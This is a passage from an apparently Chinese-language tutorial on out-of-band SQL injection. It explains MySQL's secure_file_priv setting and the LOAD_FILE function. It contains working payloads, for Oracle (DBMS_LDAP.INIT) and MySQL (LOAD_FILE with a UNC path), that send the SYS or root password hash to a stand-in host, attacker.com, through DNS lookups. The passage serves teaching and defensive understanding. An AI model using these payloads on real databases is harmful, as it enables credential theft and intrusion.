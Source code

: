 ```
SELECT DBMS_LDAP.INIT((SELECT password
```

FROM SYS.USER$ WHERE<br>
name=’SYS’)||’.attacker.com’,80) FROM DUAL;

### **4.针对 MySQL**

mysql 相对于前面两个数据库系统来讲就显得方法单一，只提供了一个可以利用的方法，不过还是需要条件的

#### **1.利用条件**

在MySQL中，存在一个称为 “secure_file_priv” 的全局系统变量。此变量用于限制数据导入和导出,例如由LOAD DATA和SELECT … INTO OUTFILE语句和LOAD_FILE（）函数执行的操作。

(1)如果将其设置为目录名称，则服务器会将导入和导出操作限制为仅适用于该目录中的文件。而且该目录必须存在，服务器不会自动创建它。<br>
(2)如果变量为空(没有设置)，则可以随意导入导出(不安全)<br>
(3)如果设置为NULL，则服务器禁用所有导入和导出操作。**从MySQL 5.5.53开始，该值为默认值**

另外 ‘secure_file_priv’ 是一个全局变量，且是一个只读变量，这意味着你不能在运行时更改它。

我们可以使用下面的语句查询

```
select @@secure_file_priv;
select @@global.secure_file_priv;
show variables like "secure_file_priv"; 

mysql&gt; select @@secure_file_priv;
+--------------------+
| @@secure_file_priv |
+--------------------+
|                    |
+--------------------+
1 row in set (0.00 sec)
```

此时我的 mysql 这个选项没有设置，所以可以使用这个方法

#### **1.LOAD_FILE**

mysql 的 LOAD_FILE() 能读取文件内容然后返回对应的字符串，使用方法

```
LOAD_FILE('&lt;filepath&gt;')
```

例如想获取 C:Windowssystem.ini 的内容

```
SELECT LOAD_FILE('C:\Windows\system.ini');
```

#### **2.实战案例**

以下是使用MySQL函数LOAD_FILE（）通过DNS解析机制推送系统管理员（root）密码哈希的示例：

```
SELECT LOAD_FILE(CONCAT('\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.attacker.com\foobar'));
```
